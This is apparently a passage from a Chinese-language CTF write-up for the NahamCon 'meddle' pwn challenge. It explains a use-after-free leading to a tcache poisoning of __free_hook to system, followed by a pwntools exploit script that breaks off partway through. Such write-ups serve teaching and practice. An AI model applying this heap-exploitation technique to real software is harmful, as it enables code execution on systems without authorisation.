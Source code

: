 很明显的存在`UAF`漏洞。

这里的漏洞利用就很简单了，首先是利用`UAF`泄漏出`libc`基地址，然后再次利用`UAF`覆写`tcache-&gt;fd`指针为`free_hook`，接着覆写`free_hook`为`system`。

有点麻烦的就是写入`fd`和值的时候需要分为两个四字节来写。

```
# encoding=utf-8
from pwn import *

file_path = "./meddle"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    p = process([file_path])
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

else:
    p = remote('challenge.nahamcon.com', 31490)
    libc = ELF('./libc-2.27.so')


def add(name=b"11111111\n", artlist=b"222222222\n"):
    p.sendlineafter("&gt; ", "1")
    p.sendafter("album name: ", name)
    p.sendafter("artist name: ", artlist)


def show(index):
    p.sendlineafter("&gt; ", "2")
    p.sendlineafter("like to view? ", str(index))


def rate(index, value):
    p.sendlineafter("&gt; ", "3")
    p.sendlineafter("you like to rate? ", str(index))
    p.sendlineafter("to rate this album? ", str(value))


def delete(index):
    p.sendlineafter("&gt; ", "4")
    p.sendlineafter("you like to delete? ", str(index))


def get_address():
    p.recvuntil("album name: ")
    hig = u16(p.recvline().strip())
    p.recvuntil("ratings: ")
    address = (int(p.recvline().strip()) &amp; 0xffffffff) + (hig &lt;&lt; 32)
    return address


def set_value(index, value):
    add(name=p32(value &gt;&gt; 32) + b"\n")  # 11
    rate(index, value &amp; 0xffffffff)


for i in range(8):
    add()

for i in range(7):
```